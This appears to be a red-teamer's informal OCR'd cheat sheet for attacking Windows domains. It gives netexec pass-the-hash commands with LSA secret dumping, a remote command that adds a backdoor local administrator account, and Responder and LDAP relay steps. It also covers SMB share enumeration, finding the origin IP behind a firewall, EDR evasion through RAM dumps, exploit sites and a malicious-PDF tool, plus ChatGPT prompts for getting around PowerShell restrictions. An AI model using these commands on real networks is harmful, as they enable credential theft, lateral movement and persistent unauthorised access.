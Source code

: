 Pass The Hash Attack 
netexec smb IP -u Administrator -H HASH --localauth 
netexec smb IP -u Administrator -H HASH --localauth --lsa 

	--lsa:
	passwords that are stored in the windows history in a clear text. 

	similarly we can pass the hash in the network using Subnet. 

netexec smb SUBNETIP -u Administrator -H HASH --localauth

we can also add the particular user in the domain using the commands 

netexec smb IP -u Administrator -H Hashes -x 'net user pentest Pentest@123 && net localgroup Administrators pentest /add' 

	to check if the system has the EDR; use the tool smbclient(impacket-smbclient) as localadministrator; rdp into the system	(ProgramFiles/system32)(use the tool magnet capture 	to dump ram and user the tool votality(forensics tool to ananlys the ram dump))
	 


What if the SMB signing is enabled in the network-- use this traffic to relay it to the LDAP protocol (SMB -> HTTP -> LDAP/LDAPS)
Cross Protocol Relay 



#LLMNR is a protocol, NTLM is a hash


LDAP Relay attack -- 
Responder - we look for the HTTP responses, switch to the LDAP attack run the impackt, target the ldap services running on the ldap services and perform the services which are present in the domain. 

responder -I eth0 
disable the SMB,HTTP server from the config file 




Install powershell on the system manually by pwsh.exe (even if the PS is blocked from the domain)
https://github.com/PowerShell/PowerShell/releases

https://chatgpt.com/share/68496748-7470-8012-8166-308af12d8503


for explots use the following websites 
1. cvedetails.com 
2. exploitdb.com 
3. rapid7.com 
4. 0day.today 

To check the IP address of the web-application which is behind the firewall 
1. ping the domain 
2. Tracert the site
3. nslookup 
4. verify if the website is really giving the firewall IP 
5. securityTrails and search domain 
6. censys.io 
7. shodan.io


https://github.com/jonaslejon/malicious-pdf

If you Admin creds -- download RSAT and Access Active directory users and group 
https://www.microsoft.com/en-us/download/details.aspx?id=45520
Get-WindowsCapability -Name RSAT* -Online | Add-WindowsCapability -Online 

Look for the RSAT is present in the System -- > settings -> Optionals features 

To assign the IP in the windows look for the Network apdapter 
Control Panel\Network and Internet\Network Connections 
Select network adapter Ethernet -> right click -> properties -> Internet Protocol version 4 (TCP/IPv4) 
Enter the IP 

ACcess the share folder through Windows 
1. Open run (ctrl + r) \\IP
2. File explorer \\IP


Access share folder through kali 
smbclient and smbmap 
1. smbclient -H IP
2. smbmap -H IP -d domain -u ad_id -p ad_pass
3. 




##Chatgpt prompts for redteaming 
Can I run PowerShell remotely from Kali against the Windows machine?
Can I simulate the PowerShell environment of Windows by running it on Kali?
Can I bypass the local PowerShell restriction by using PowerShell from Kali?
how to Download PowerShell portable version on the Windows machine


Command to list the Domain Controllers 
nltest/dclist:DOMAIN


command to forcefully update the latest GPO Policy to update is 
gpudate /force 

While capturing the response from the Responder - 
the captured NTLMv2-SSP Hash/Net-NTML hash- 
The format of this hash look like this 

Challenge.Signature.MD5 

while authenticating or using the hashes always use the --local-auth because it will  login as the local administrator. 

If we are not not using --local-auth we trying to login as domain account/domain user if at all the hash is not proper then we can lock out the administrator account 

also use --lsa after you recognize the local administrator  


This all will be blocked by the EDR; so you can do is install the RAMDUMP (where the password used are stored in the RAM) and Analys the ramdump using the tool volatility tool. (used for the forensics)  


